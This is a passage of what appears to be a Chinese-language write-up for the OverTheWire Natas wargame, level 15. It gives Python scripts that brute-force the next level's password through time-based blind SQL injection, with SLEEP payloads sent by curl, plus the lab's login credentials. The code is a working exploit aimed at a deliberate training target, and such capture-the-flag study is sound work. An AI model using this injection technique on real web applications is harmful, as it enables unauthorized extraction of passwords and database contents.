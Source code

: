 ```python
password = ''

while len(password) < 32:
    for c in string.ascii_letters + string.digits:
        progress = password + c
        print(f"进度[{len(password)}/32] {progress}")
        start_time = time.time()
        command = base_command.format(progress)
        subprocess.run(command, shell=True)
        end_time = time.time()
        time_taken = end_time - start_time
        print(f"Time taken: {time_taken}")
        if time_taken > 5:
            password += c
print(f"Password: {password}")
```

单线程太慢（甚至连正确率都非常低），可以换成多线程：

```python
import time
import subprocess
import string
from concurrent.futures import ThreadPoolExecutor, as_completed

base_command = """
curl -u natas15:TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB \
--silent \
--get \
-d 'debug' \
--data-urlencode 'username=natas16" AND IF((SELECT password FROM users WHERE username="natas16") LIKE BINARY "{0}%", SLEEP(10), 0) -- ' \
http://natas15.natas.labs.overthewire.org/index.php > /dev/null
"""

password = 'TRD7iZrd5gATjj9PkPEu'
characters = string.ascii_letters + string.digits

def test_character(progress):
    command = base_command.format(progress)
    start_time = time.time()
    subprocess.run(command, shell=True)
    end_time = time.time()
    time_taken = end_time - start_time
    return (progress[-1], time_taken)

# 主循环，当密码长度小于32时，继续循环
while len(password) < 32:
    # 创建一个线程池，最大工作线程数为64
    with ThreadPoolExecutor(max_workers=64) as executor:
        # 提交任务到线程池，每个任务都是调用test_character函数，参数是当前密码加上一个字符
        futures = {executor.submit(test_character, password + c): c for c in characters}
        # 遍历已完成的future
        for future in as_completed(futures):
            # 获取future对应的字符
            c = futures[future]
            try:
                # 获取future的结果，即test_character函数的返回值
                result_char, time_taken = future.result()
                # 打印测试信息
                print(f"Trying[{len(password)}/32] {password + c}, Time taken: {time_taken}")
                # 如果运行命令的时间超过10秒，说明这个字符在密码中，将其添加到密码中
                if time_taken > 10:
                    password += result_char
```